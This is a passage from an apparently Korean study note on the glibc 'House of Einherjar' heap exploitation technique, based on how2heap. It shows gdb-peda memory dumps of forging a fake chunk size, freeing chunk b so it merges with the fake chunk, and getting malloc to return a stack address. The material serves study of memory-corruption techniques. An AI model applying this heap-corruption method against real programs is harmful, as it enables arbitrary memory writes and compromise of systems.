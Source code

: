 * fake chunk의 size를  fake_size로 변조한다.

```
Modify fake chunk's size to reflect b's new prev_size
```

```
gdb-peda$ x/24gx 0x7fffffffe4b0
0x7fffffffe4b0:	0x0000000000000100	0xffff800000604b90 <-
0x7fffffffe4c0:	0x00007fffffffe4b0	0x00007fffffffe4b0
0x7fffffffe4d0:	0x00007fffffffe4b0	0x00007fffffffe4b0
```

* free b
* b의 "prev_inuse"가 해제되어 있어 b와 fake chunk가 병합된다.

```
Now we free b and this will consolidate with our fake chunk since b prev_inuse is not set
Our fake chunk size is now 0xffff800000625b51 (b.size + fake_prev_size)

```

* free b 후 heapinfo

```
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x7fffffffe4b0 (size : 0xffff800000625b50) (top is broken ?) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
```

* 다음 malloc 시 Stack 영역에 할당된다.

```
Now we can call malloc() and it will begin in our fake chunk
Next malloc(0x200) is at 0x7fffffffe4c0
```

```
gdb-peda$ x/24gx 0x7fffffffe4c0-0x10
0x7fffffffe4b0:	0x0000000000000100	0x0000000000000211
0x7fffffffe4c0:	0x00007fffffffe4b0	0x00007fffffffe4b0
```


**References**  
<https://www.lazenca.net/display/TEC/House+of+einherjar?preview=/1148149/1148524/1501728020158.jpg>  
<https://github.com/shellphish/how2heap/blob/master/glibc_2.26/house_of_einherjar.c>